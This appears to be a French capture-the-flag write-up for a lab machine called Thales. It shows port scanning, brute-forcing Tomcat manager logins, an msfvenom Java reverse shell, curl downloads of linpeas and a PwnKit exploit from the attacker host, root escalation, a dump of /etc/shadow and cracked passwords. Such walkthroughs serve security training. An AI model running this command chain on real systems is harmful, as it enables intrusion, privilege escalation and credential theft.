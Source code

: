 # Thales
1.Énumération

👁️ **Massap**

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $sudo sh massap.sh
Entrer une IP: 192.168.56.29
Entrer un rate: 1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-13 18:15:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 19:18 CET           
NSE: Loaded 150 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:18
Completed NSE at 19:18, 10.02s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Initiating ARP Ping Scan at 19:18
Scanning 192.168.56.29 [1 port]
Completed ARP Ping Scan at 19:18, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:18
Completed Parallel DNS resolution of 1 host. at 19:18, 0.00s elapsed
Initiating SYN Stealth Scan at 19:18
Scanning 192.168.56.29 [2 ports]
Discovered open port 22/tcp on 192.168.56.29
Discovered open port 8080/tcp on 192.168.56.29
```

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - tomcat**

Brute force avec une wordlist d’utilisateur et mot de passe par défaut

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run

[+] 192.168.56.29:8080 - Login Successful: tomcat:role1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> 
```

&nbsp;

<ins>2.Exploitation</ins>

**<span style="color: #dddddd;"><span style="color: #dddddd;">👻</span></span> MSFvenom**

Création d’un `reverse shell` en java

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f war > revshelll.war
Payload size: 6214 bytes
Final size of war file: 6214 bytes
```

&nbsp;

**💥 Metasploit - meterpreter**

Ecoute du port `4444` pour obtenir le revershell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (58037 bytes) to 192.168.56.29
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.29:60090) at 2025-01-13 19:59:11 +0100

(Meterpreter 1)(/) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Téléchargement depuis ma machine le script `bash`

```
(Meterpreter 1)(/) > cd /tmp
(Meterpreter 1)(/tmp) > shell
Process 3 created.
Channel 5 created.
bash -i
tomcat@miletus:/tmp$
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0  38.5M      0 --:--:-- --:--:-- --:--:-- 38.5M
```

&nbsp;

Exploit potentiel d’élévation de privilège

```
tomcat@miletus:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit PwnKit**

Test de l’exploit

```
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/PwnKit
curl -O 192.168.56.104:8181/PwnKit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 18040  100 18040    0     0  1601k      0 --:--:-- --:--:-- --:--:-- 1601k
tomcat@miletus:/tmp$ ./PwnKit
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),999(tomcat)
bash -i
root@miletus:/tmp# 
```

&nbsp;

Dump des hash utilisateur du fichier `shadow`

```
root@miletus:/tmp# cat /etc/shadow
cat /etc/shadow
root:$1$root$QBgvNQo1oG6uBsRhpHVcF0:18854:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18854:0:99999:7:::
thales:$6$Y9smI36b$guxECvhWSBfjNVrX4s6GmgZEUOWZ.jNJBcn6j2aera6OgzX87IfNz9Fz1auf3tUzylJrrw4nHt5vEQwGRMYG0/:18855:0:99999:7:::
tomcat:!:18854::::::
```

&nbsp;

**🧨 JohnTheRipper**

Crack du hash de l’user `thales` & `root`

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (thales)     
1g 0:00:12:58 DONE (2025-01-13 21:21) 0.001284g/s 3673p/s 3673c/s 3673C/s voezz..vodiensex
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --show thales
thales:vodka06:18855:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 6.22% (ETA: 21:27:20) 0g/s 237808p/s 237808c/s 237808C/s belatz..beckiere
ghost2000        (root)     
1g 0:00:00:30 DONE (2025-01-13 21:26) 0.03293g/s 255481p/s 255481c/s 255481C/s ghostgfb..ghorazz
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --show
root:ghost2000:18854:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Cred trouver

| User | Password |
| --- | --- |
| thales | vodka06 |
| root | ghost2000 |
